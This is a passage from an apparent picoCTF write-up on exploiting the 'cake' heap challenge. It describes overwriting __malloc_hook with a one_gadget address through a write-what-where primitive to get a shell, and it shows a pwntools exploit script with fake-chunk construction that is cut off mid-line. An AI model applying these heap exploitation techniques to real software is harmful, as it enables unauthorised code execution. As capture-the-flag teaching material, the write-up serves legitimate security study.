 **Execute the *write-what-where* primitive by making a cake, the name is the *where* (`&__malloc_hook`), and the price is the *what* (`one_gadget`).**

Finally, to trigger the gadget and get a shell **make one FINAL cake**. This will call into `&__malloc_hook`, which calls the `one_gadget`, which launches a shell.

Putting it all together, here's what those instructions look like using `pwntools`:

```python
#!/bin/env python3

from pwn import *

lib = ELF("libc.so.6")
aout = ELF("cake")

#p = process(["ltrace", "-o", "trace", "-e", "malloc+printf+free+realloc+memcpy", "./sword"], env={"LD_PRELOAD": "noalarm.so"})
#p = process(["ltrace", "-o", "trace", "-e", "malloc+free", "./cake"])
p = process("./cake")
#p = gdb.debug("./cake", "break main\ncontinue\nni\nni\nni\ncall (void)alarm(0)\nc\n")
#p = remote("2018shell.picoctf.com", 39932)

def echo(str):
    print(str)
    p.sendline(str)
    _ = "".join(map(chr, p.recvline(timeout=2))).rstrip()
    print(_)
    return _

def wait_prompt():
    print("".join(map(chr, p.recvuntil("> "))).rstrip())

def make(name, price):
    wait_prompt()
    echo("M")
    print("".join(map(chr, p.recvuntil("Name> "))).rstrip())
    print(name)
    p.sendline(name)
    print("".join(map(chr, p.recvuntil("Price> "))).rstrip())
    print(str(price))
    p.sendline(str(price))

def serve(index):
    wait_prompt()
    echo("S")
    wait_prompt()
    echo(str(index))

def inspect(index):
    wait_prompt()
    echo("I")
    wait_prompt()
    p.sendline(str(index))
    _ =  p.recvuntil("$")
    pricebytes = p.recvline(keepends=False)
    _ += pricebytes
    print("".join(map(chr, _)))
    price = int(pricebytes)
    return price

def fake_chunk():
	wait_prompt()
	p.sendline(b" "*8 + p64(0xA1) + b"\0"*(0xA0 - 8) + # chunk 1
                p64(0x21) + b"\0"*(0x20 - 8) +  # chunk 2
```